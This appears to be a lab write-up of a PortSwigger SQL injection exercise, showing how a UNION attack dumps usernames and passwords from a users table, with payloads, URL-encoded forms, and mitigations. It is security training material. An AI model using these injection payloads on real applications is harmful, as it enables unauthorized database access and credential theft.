


# SQL injection UNION attack, retrieving data from other tables

| Field | Value |
|---|---|
| **Difficulty** | Practitioner |
| **Category** | SQL Injection |
| **Lab URL** | `https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables` |

---

## Lab Objective

The product category filter is vulnerable to SQL injection and its results are reflected in the response. The database contains a separate `users` table with `username` and `password` columns. Use a `UNION` attack to retrieve the table's contents and log in as `administrator`.

---

## Skills Learned

- Sizing a query with the `ORDER BY` method before a `UNION`
- Confirming that the returned columns accept string data
- Extending a two-column `UNION` to dump an entire unrelated table
- Turning dumped credentials into an authenticated session

---

## Recon

The vulnerable parameter is `category`, tested through Burp Suite Repeater:

```http
GET /filter?category=Toys+%26+Games
```

The app concatenates this value into a backend SQL query without parametrizing it, so the injected `WHERE` clause value ends up inside the statement itself:

```sql
SELECT * FROM products WHERE category = 'Toys & Games' AND released = 1
```

Because the query results are reflected in the page, a `UNION SELECT` can append my own rows — including rows pulled from a completely different table.

---

## Finding the Vulnerability

A `UNION` only works when the injected `SELECT` returns exactly the same number of columns as the original query. If they don't match, the database rejects the whole statement.

I sized the query with `ORDER BY`:

```http
GET /filter?category=Toys+%26+Games' ORDER BY 3-- HTTP/2
```

That returned a **500 error** — column 3 doesn't exist, so the original query returns **2 columns**.



---

## Exploitation Steps

1. Confirmed the query returns **2 columns** (`ORDER BY 3` failed).
2. Confirmed both columns accept string data with:

```sql
' UNION SELECT 'abc','def'--
```

   The page rendered both values — the text displayed in the response confirmed the returned columns are text-compatible, so dumped string data won't break the query.
3. Since the columns accept strings, I swapped in real data from the `users` table:

```sql
' UNION SELECT username,password FROM users--
```

4. The response returned each username with its password. I took the `administrator` credentials and logged in through the login form.
5. The application authenticated as the administrator account.

The lab became: **`Congratulations, you solved the lab!`**



---

## Payloads

Column-count probe:

```http
GET /filter?category=Toys+%26+Games' ORDER BY 3-- HTTP/1.1
```

Text-compatibility probe:

```sql
' UNION SELECT 'abc','def'--
```

URL-encoded form:

```
Toys%2B%26%2BGames%27%20UNION%20SELECT%20%27abc%27%2C%27def%27--
```

Data extraction:

```sql
' UNION SELECT username,password FROM users--
```

URL-encoded form:

```
Toys%2B%26%2BGames%27%20UNION%20SELECT%20username%2Cpassword%20FROM%20users--
```

---

## Why It Works

- **`UNION`** appends the result set of a second `SELECT` below the first — but both queries must return the same column count and compatible data types.
- **`SELECT`** builds the attacker-controlled result set. Here it returns whichever two values I name.
- **Two values** are supplied because the original query returns two columns; the counts must match.
- **String literals** (`'abc'`) test whether the columns accept and display text, so the later `username`/`password` strings won't trigger a type error.
- **`--`** comments out the remainder of the original SQL (the trailing `AND released = 1`), so the whole statement stays syntactically valid.
- On success I swapped the literals for `username` and `password FROM users` — the two-column shape still lines up, but now each row comes from the `users` table, exposing credentials for `administrator`.

---

## Root Cause

The `category` value is concatenated directly into the SQL string with no parameterization or input validation. This hands the attacker control over the statement's structure — allowing `UNION SELECT` to read from tables the application never intended to expose.

---

## Impact

A reflective SQL injection against an unbound `UNION` gives complete read access to the underlying database: credentials in the `users` table, plus anything else the DB account can reach (schema, other applications' data). In this case it was enough to dump `administrator`'s password and fully compromise the application.

---

## Mitigation

- Use parameterized queries / prepared statements so input never becomes executable SQL
- Validate/whitelist the `category` parameter
- Apply least-privilege database accounts and shard sensitive tables away from the query user
- Never return raw DB result rows into HTML without encoding

---

## Key Takeaways

- `ORDER BY n` failing is a reliable signal you've overshot the column count; it paces the query without leaking data first.
- Confirm the column types (string-compatibility) before expecting string data to survive a `UNION`.
- `UNION` is only about the shape of the result — matching column count and types is the entire trick of dumping another table's rows.

---

## References

- [PortSwigger: SQL injection UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [PortSwigger: Retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks#retrieving-data-from-other-tables)
- [OWASP: SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)